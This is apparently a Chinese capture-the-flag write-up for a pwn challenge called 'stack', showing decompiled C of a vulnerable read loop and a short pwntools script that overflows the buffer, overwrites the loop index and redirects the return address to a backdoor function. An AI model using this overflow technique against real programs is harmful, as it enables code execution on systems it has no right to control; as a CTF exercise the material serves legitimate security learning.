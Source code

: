 ## stack


***

出题人：xsh

![image-20240413224639521](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413224639521.png)

```python
__int64 vuln()
{
  int v1; // [rsp+Ch] [rbp-24h] BYREF
  char s[8]; // [rsp+10h] [rbp-20h] BYREF
  __int64 v3; // [rsp+18h] [rbp-18h]
  int i; // [rsp+2Ch] [rbp-4h]

  *(_QWORD *)s = 0LL;
  v3 = 0LL;
  i = 0;
  v1 = 0;
  printf("size: ");
  __isoc99_scanf("%d", &v1);
  printf("> ");
  for ( i = 0; i < v1; ++i )
  {
    read(0, &s[i], 1uLL);
    if ( s[i] == 10 )
      break;
  }
  puts(s);
  return 0LL;
}

```

**栈溢出漏洞，溢出可以覆盖 i 的值，所以这里需要控制好溢出时候 i 的值，直接对返回地址写后门函数**

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
p = process('./stack')
elf = ELF('./stack')

#gdb.attach(p, 'b *0x4012b1')

p.sendlineafter(b'size: ', str(0x100))
p.sendlineafter(b'> ', b'a'*0x1c + p8(0x27) + p64(0x4012EE))

p.interactive()
#pause()

```





